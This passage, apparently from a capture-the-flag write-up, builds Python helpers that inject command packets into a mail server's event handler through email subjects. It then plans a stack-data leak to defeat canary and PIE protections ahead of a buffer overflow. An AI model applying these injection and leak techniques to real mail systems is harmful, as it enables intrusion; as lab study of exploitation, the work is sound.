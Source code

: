 ```python
username = email.split("@")[0]

login(email, password)
```
I registered an email at day@hackemall.live with password `t` manually.

The mail file format is simply `subject|content_path`, so we can put the entire thing that we want to send to the FIFO in the subject. The below function builds a simple packet.
```python
def build_packet(cmd, data,length=None):
    if length is None:
        length = len(data)
    # Builds an update.event packet(for ones that aren't UPD)
    return cmd + str(length).zfill(3).encode() + data
```
Finally, all that is necessary to send a command to update.event is sending an email to update.event@hackemall.live with the subject being what we want, for example NEW005PWNED. The content doesn't matter(yet), make it whatever you want!

```python
def build_packet(cmd, data,length=None):
    if length is None:
        length = len(data)
    # Builds an update.event packet(for ones that aren't UPD)
    return cmd + str(length).zfill(3).encode() + data

def send_event(data, content=None):
    if content is None:
        content = "I swear on my life, I always try, but in my eye, I can fly. Better luck next time.\n"
    send("update.event", data, content)
```
sure enough, `send_event(build_packet(b"NEW", b"PWNED\n"))` works(I tested using a docker image)
```
root@29b3c6292ea3:/home/mailserver/data# cat update.bin
PWNED 
```

## Getting leaks
```
┌──(kali㉿kali)-[~/CTFs/tet/mail/user_build]
└─$ pwn checksec mailclient  
[*] '/home/kali/CTFs/tet/mail/user_build/mailclient'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Canary and PIE, yep we'll definitely need good leaks. But how?

Return to the reading email code - it basically does
```c
read(fd, buf, SIZE);
write(1,buf,SIZE);
```
If size is arbitrarily big, then it'll dump loads of stack data and leaks can almost certainly be leveraged from that. Unfortunately, that might trigger the BOF early, right?
